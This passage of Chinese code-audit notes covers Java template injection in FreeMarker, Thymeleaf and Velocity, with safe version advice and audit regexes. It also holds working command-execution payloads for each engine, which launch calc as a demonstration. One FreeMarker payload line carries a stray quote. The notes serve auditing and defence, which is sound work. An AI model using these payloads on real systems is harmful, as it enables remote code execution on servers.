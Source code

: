 ```

api函数：
#assign classLoader=object?api.class.protectionDomain.classLoader> 
<#assign clazz=classLoader.loadClass("ClassExposingGSON")> 
<#assign field=clazz?api.getField("GSON")> 
<#assign gson=field?api.get(null)> 
<#assign ex=gson?api.fromJson("{}", classLoader.loadClass("freemarker.template.utility.Execute"))> 
${ex("Calc"")}

其中api的方法在2.3.22版本之后默认无法使用，new方法在2.3.30版本后也被做了一些限制，无法直接执行命令，但是仍然需要注意，所以建议至少版本在2.3.30版本后，同时无危险使用方法。
```


案例参考：
https://github.com/pawelkaliniakit/springboot-freemarker-ssti/tree/master
https://github.com/nth347/Java-SSTI-demo

![](/dmsj_img/Pasted%20image%2020241222001709.png)

![](/dmsj_img/Pasted%20image%2020241222001831.png)

### Thymeleaf

```
比较常规的漏洞版本是：Thymeleaf 3.0.0 至 3.0.11，但是后续的漏洞版本修复存在一些绕过问题，建议至少大于3.0.15。

和上一个模板注入的情况类似，我认为最常见的情况还是return或者render返回对应的前端文件。

审计正则表达式：
html可换成ftl
return\(.*?\.html
return\s*".*?\.html"
render\(.*?\.html

当一个Controller的方法没有返回值（即返回类型为`void`），并且使用了`@GetMapping`或`@PostMapping`等注解来处理HTTP请求时，Spring MVC会默认将请求的URL作为视图名称，并使用配置的模板引擎（如Thymeleaf）去渲染对应的模板。
审计正则表达式：
@GetMapping\(.*?\)\s*public\s+void/gm

payload:

__$%7bnew%20java.util.Scanner(T(java.lang.Runtime).getRuntime().exec(%27calc.exe%27).getInputStream()).next()%7d__::.x
```

### Velocity

```
安全版本：Velocity大于2.2

重点关注：
org.apache.velocity.app.Velocity 的 evaluate 和 mergeTemplate 方法
org.apache.velocity.app.VelocityEngine 的 evaluate 和 mergeTemplate 方法
org.apache.velocity.runtime.RuntimeServices 的 evaluate 和 parse 方法
org.apache.velocity.runtime.RuntimeSingleton 的 parse 方法
org.apache.velocity.runtime.resource.util.StringResourceRepository 的 putStringResource 方法

payload:
#set ($exec = "kxlzx")$exec.class.forName("java.lang.Runtime").getRuntime().exec("calc")

%23set($e="e");$e.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec("calc")
```
